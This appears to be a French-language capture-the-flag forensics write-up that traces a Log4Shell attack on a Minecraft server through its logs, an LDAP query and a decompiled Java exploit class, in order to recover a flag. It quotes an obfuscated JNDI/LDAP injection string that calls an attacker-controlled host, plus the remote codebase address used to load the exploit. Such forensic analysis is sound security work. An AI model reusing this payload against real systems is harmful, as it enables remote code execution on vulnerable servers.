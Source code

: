 Attaque survenue le 8 mai d’après les modifications de fichiers

Dans les logs Minecraft, quand on grep ‘unhappy’:

```
[16:39:32] [User Authenticator #10639/INFO]: UUID of player unhappy is a00b999e-001b-4807-b999-add902b9999c
[16:39:32] [Server thread/INFO]: unhappy[/172.240.18.1:57008] logged in with entity id 10991 at (-257.5, 67.0, -198.5)
[16:39:32] [Server thread/INFO]: unhappy joined the game
[16:39:33] [Server thread/INFO]: <unhappy> ${${k8s:k5:-J}${k8s:k5:-ND}i${sd:k5:-:}l${lower:D}ap${sd:k5:-:}//unhappy.competitor.com:1389/a}
[16:39:33] [Server thread/INFO]: <unhappy> Reference Class Name: foo
[16:40:02] [Server thread/INFO]: unhappy lost connection: Disconnected
[16:40:02] [Server thread/INFO]: unhappy left the game
```

Ce que l’on voit ici c’est bien une attaque LOG4SHELL, l’attaquant lance une requête à un LDAP depuis le serveur minecraft

IP du LDAP selon les logs Ansible qui ont modifié les logs de la machine: 174.10.54.15

On fait alors un ldapsearch avec la même requête que l’attaquant:

```
# extended LDIF
#
# LDAPv3
# base <> (default) with scope subtree
# filter: (objectclass=*)
# requesting: ALL
#

#
dn:
javaClassName: foo
javaCodeBase: http://174.10.54.15:50666/
objectClass: javaNamingReference
javaFactory: Exploit84686564564857543

# search result
search: 2
result: 0 Success

# numResponses: 2
# numEntries: 1
```

L’attaquant a aussi un serveur http up sur la même addresse, on fait donc un wget avec le nom de la classe (Exploit846…) 

Lorsque qu’on décompile la classe java, on remarque le schéma d’un l’exploit mais aussi du code rajouté. En fait le code rajouté permet de reconstituer le flag, on peut comparer en cherchant le code original de l’exploit.

# FORENSIC - Vivre pas cher
